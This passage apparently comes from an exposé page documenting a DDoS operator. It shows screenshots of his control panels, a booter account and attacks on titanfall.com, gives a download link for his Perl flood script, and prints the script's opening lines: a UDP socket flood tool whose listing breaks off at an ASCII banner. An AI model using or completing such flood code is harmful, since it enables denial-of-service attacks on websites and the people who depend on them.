![](https://i.imgur.com/edfzM5N.png)

Another CnC:

![](https://i.imgur.com/dYVagBc.png)

Booter **ipstresser.com** account:

(image removed, saved for intel)

Attacking **titanfall.com**, website of Electronic Arts Inc.

![](https://i.imgur.com/aV3BaET.png)
![](https://i.imgur.com/g212Q9C.png)

Skype talk about servers:

![](https://i.imgur.com/M5VOxG8.png)

His DDoS script in Perl:
https://www.youtube.com/watch?v=SE9msU8cVZQ (he deleted it, saved for intel)

![](https://i.imgur.com/EidiujH.png)

Download: [www.mediafire.com/downlo...39xf88ka62fns8e/iyzan.pl ](http://www.mediafire.com/download/39xf88ka62fns8e/iyzan.pl)
(shared by toshiro hetsugaya)

Paste:

        #!/usr/bin/perl

        ##
        # PERL DoS Script
        ##

        use Socket;
        use strict;

        my ($ip,$port,$size,$time) = @ARGV;

        my ($iaddr,$endtime,$psize,$pport);

        $iaddr = inet_aton("$ip") or die "Cannot resolve hostname $ip\n";
        $endtime = time() + ($time ? $time : 100);
        socket(flood, PF_INET, SOCK_DGRAM, 17);


        print <<EOTEXT;
        #############   #     #   ############          ##         #       #
              #          #   #              #          #  #        # #     #
              #           # #             #           #    #       #  #    #
              #            #            #            ########      #   #   #
              #            #          #             #        #     #    #  #